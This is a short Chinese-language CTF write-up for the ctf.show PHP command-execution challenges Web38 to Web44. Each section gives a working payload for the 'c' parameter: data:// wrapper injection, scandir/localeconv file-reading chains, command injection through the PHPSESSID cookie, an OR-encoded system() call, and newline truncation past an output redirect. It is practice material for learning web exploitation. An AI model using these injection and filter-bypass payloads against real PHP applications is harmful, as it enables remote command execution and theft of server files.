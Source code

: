 ## Web38
    c=data://text/plain,<?=system('cat fla*');?>

## Web39
	c=data://text/palin,<?php system('cat fl*');?>

## Web40
scandir(’.’):扫描当前目录
localeconv() 函数返回一包含本地数字及货币格式信息的数组。而数组第一项就是.
pos(),current():返回数组第一个值

c=print_r(scandir(pos(localeconv())));
查看目录

读flag

c=highlight_file(next(array_reverse(scandir(pos(localeconv())))));

c=show_source(array_rand(array_flip(scandir(pos(localeconv())))));
先交换键值键名，然后随机返回。

最后一个方法很有意思

session_start(): 告诉PHP使用session;
session_id(): 获取到当前的session_id值；
手动设置cookie中PHPSESSID=flag.php；

http://f34e0b19-a97f-44d7-a3e5-9fcaf4913f00.challenge.ctf.show:8080/?c=session_start();system(session_id());

PHPSESSID=ls

## Web41
用或运算构造即可，脚本自己随便写一个就行。
要注意的是这边命令执行需要闭合和注释。

    c='|||||||||||');('%13%19%13%14%05%0D'|'%60%60%60%60%60%60')(('%03%01%14'|'%60%60%60').' '.('%06%0C%01%07%02%10%08%10'|'%60%60%60%60%2C%60%60%60'));//


## Web42
这条命令的意思就是在后台执行这个程序,并将错误输出2重定向到标准输出1,然后将标准输出1全部放到/dev/null文件,也就是清空.
所以可以看出" >/dev/null 2>&1 "常用来避免shell命令或者程序等运行中有内容输出。

截断即可
c=cat flag.php%0a

ps：%26以及||也能截断。
## Web43
c=tac flag.php%0A

## Web44
c=tac f*%0A
